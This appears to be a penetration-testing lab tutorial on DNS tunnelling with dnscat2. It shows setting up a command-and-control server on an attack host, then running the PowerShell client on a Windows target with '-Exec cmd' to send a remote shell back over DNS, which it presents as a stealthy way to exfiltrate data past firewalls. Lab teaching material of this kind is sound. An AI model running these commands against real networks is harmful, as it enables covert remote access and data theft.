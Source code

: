 [Dnscat2](https://github.com/iagox86/dnscat2) is a tunneling tool that uses DNS protocol to send data between two hosts. 
* It uses an encrypted `Command-&-Control` (`C&C` or `C2`) channel and sends data inside TXT records within the DNS protocol. 
* Usually, every active directory domain environment in a corporate network will have its own DNS server, which will resolve hostnames to IP addresses and route the traffic to external DNS servers participating in the overarching DNS system. 
* However, with dnscat2, the address resolution is requested from an external server. 
* When a local DNS server tries to resolve an address, data is exfiltrated and sent over the network instead of a legitimate DNS request. 
* Dnscat2 can be an extremely stealthy approach to exfiltrate data while evading firewall detections which strip the HTTPS connections and sniff the traffic. 
* For our testing example, we can use dnscat2 server on our attack host, and execute the dnscat2 client on another Windows host.

## Setting Up & Using dnscat2

If dnscat2 is not already set up on our attack host, we can do so using the following commands:

#### Cloning dnscat2 and Setting Up the Server

DNS Tunneling with Dnscat2

```shell-session
canklesmaks@htb[/htb]$ git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

We can then start the dnscat2 server by executing the dnscat2 file.

#### Starting the dnscat2 server

DNS Tunneling with Dnscat2

```shell-session
canklesmaks@htb[/htb]$ sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache

New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.
```

After running the server, it will provide us the secret key, which we will have to provide to our dnscat2 client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server. 
* We can use the client with the dnscat2 project 
* or use [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell), a dnscat2 compatible PowerShell-based client that we can run from Windows targets to establish a tunnel with our dnscat2 server. 
* We can clone the project containing the client file to our attack host, then transfer it to the target.

#### Cloning dnscat2-powershell to the Attack Host

DNS Tunneling with Dnscat2

```shell-session
canklesmaks@htb[/htb]$ git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

Once the `dnscat2.ps1` file is on the target we can import it and run associated cmd-lets.

#### Importing dnscat2.ps1

DNS Tunneling with Dnscat2

```powershell-session
PS C:\htb> Import-Module .\dnscat2.ps1
```

After dnscat2.ps1 is imported, we can use it to establish a tunnel with the server running on our attack host. We can send back a CMD shell session to our server.

DNS Tunneling with Dnscat2

```powershell-session
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```

We must use the pre-shared secret (`-PreSharedSecret`) generated on the server to ensure our session is established and encrypted. If all steps are completed successfully, we will see a session established with our server.

#### Confirming Session Establishment

DNS Tunneling with Dnscat2

```shell-session
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```